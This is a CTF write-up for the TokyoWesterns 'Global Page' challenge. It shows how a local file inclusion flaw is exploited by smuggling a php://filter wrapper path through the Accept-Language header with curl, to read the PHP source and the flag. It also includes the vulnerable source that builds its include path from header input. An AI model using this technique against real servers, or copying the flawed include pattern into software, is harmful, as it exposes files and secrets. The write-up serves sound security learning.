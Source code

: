 # Global Page WriteUp

The "quest" begin with a link wihtout any hint or sentence: [link to Global Page.](http://globalpage.chal.ctf.westerns.tokyo/)

![Landing page](images/Globalpageindex.png)
The Landing Page show one deleted and two followable links.

Trying to follow ctf or tokyo, the browser makes a GET request to a php as parameter(page) the followed link(ctf or tokyo) -> `http://globalpage.chal.ctf.westerns.tokyo/?page=ctf` or `http://globalpage.chal.ctf.westerns.tokyo/?page=tokyo`.


![Page](images/page.png)

Mh! Warning: include() => suggest with high probability a **LFI** attack.
Before continue one consideration: the include function try to open a file in the page parameter directory with the language specified in the Accept-Language Header Request.

Every LFI page parameter results in a correctly input sanity check(escape . and /).

What can we do? Attach a LFI in the Accept-Language and build the properly LFI.

`pirate$ curl 'http://globalpage.chal.ctf.westerns.tokyo/?page=php:' -H "Accept-Language:/filter/convert.base64-encode/resource=index"` => result in the GET Request `http://globalpage.chal.ctf.westerns.tokyo/?page=php://filter/convert.base64-encode/resource=index` that encode the index.php in base64.

Decode the base64 index.php and obtain:
```
<?php
if (!defined('INCLUDED_INDEX')) {
define('INCLUDED_INDEX', true);
ini_set('display_errors', 1);
include "flag.php"; <-- FLAG
?>
<!doctype html>
<html>
<head>
<meta charset=utf-8>
<title>Global Page</title>
<style>
.rtl {
  direction: rtl;
}
</style>
</head>

<body>
<?php
$dir = "";
if(isset($_GET['page'])) {
	$dir = str_replace(['.', '/'], '', $_GET['page']);
}

if(empty($dir)) {
?>
<ul>
	<li><a href="/?page=tokyo">Tokyo</a></li>
	<li><del>Westerns</del></li>
	<li><a href="/?page=ctf">CTF</a></li>
</ul>
<?php
}
else {
	foreach(explode(",", $_SERVER['HTTP_ACCEPT_LANGUAGE']) as $lang) {
		$l = trim(explode(";", $lang)[0]);
?>
<p<?=($l==='he')?" class=rtl":""?>>
<?php
		include "$dir/$l.php";
?>
</p>
<?php
	}
}
?>
</body>
</html>
<?php
}
?>
```

_include "flag.php"_, so one more time LFI:
`pirate$ curl 'http://globalpage.chal.ctf.westerns.tokyo/?page=php:' -H "Accept-Language:/filter/convert.base64-encode/resource=flag"` => result in the GET Request `http://globalpage.chal.ctf.westerns.tokyo/?page=php://filter/convert.base64-encode/resource=flag`.

Decode base64 and woitlà:

```
pirate$ echo "PD9waHAKJGZsYWcgPSAiVFdDVEZ7SV9mb3VuZF9zaW1wbGVfTEZJfSI7Cg" | base64 -D -
<?php
	$flag = "TWCTF{I_found_simple_LFI}";
```








